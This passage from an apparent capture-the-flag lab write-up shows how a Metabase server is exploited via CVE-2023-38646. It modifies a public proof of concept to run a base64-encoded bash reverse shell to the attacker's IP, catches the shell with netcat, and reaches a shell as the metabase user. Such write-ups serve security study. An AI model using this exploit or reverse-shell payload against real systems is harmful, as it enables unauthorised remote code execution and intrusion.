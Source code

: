 A few seconds later, we get a callback on our HTTP server:

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.230.94 - - [13/Nov/2023 13:56:14] code 501, message Unsupported method ('POST')
10.129.230.94 - - [13/Nov/2023 13:56:14] "POST / HTTP/1.1" 501 -
```

This confirms that the Metabase instance is in fact vulnerable to RCE. We now have to modify the PoC slightly for us obtain a reverse shell.

First, we generate a base64-encoded reverse shell payload using [revshells](https://www.revshells.com). We then modify the script to decode our payload and pipe it to `bash` instead of running `curl`.

```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU5LzQ0NDQgMD4mMQ==|base64 -d|bash
```

Specifically, we place replace the parameter of the `SHELLEXEC` function:

```diff 
diff CVE-2023-38646.py rce.py

25c25
< payload={"details": {"details": {"advanced-options": True, "classname": "org.h2.Driver", "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('curl -d key=kh4sh3i " + args.collabrator +"');", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token": args.token}
---
> payload={"details": {"details": {"advanced-options": True, "classname": "org.h2.Driver", "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU5LzQ0NDQgMD4mMQ==|base64 -d|bash');", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token": args.token}
```

We then start a `Netcat` listener on port `4444`:

```bash
nc -nlvp 4444
```

Finally, we run the updated script.

```bash
python3 rce.py -u http://metabase.apethanto.htb -t '819139a8-1ce9-46f0-acf8-9b4fc0d1164b' -c http://10.10.14.59
```

We instantly get a callback on our listener:

```bash
nc -nlvp 4444                                                    

listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.230.94] 39360
bash: cannot set terminal process group (399): Inappropriate ioctl for device
bash: no job control in this shell
metabase@Apethanto:~$ whoami
whoami
metabase
```
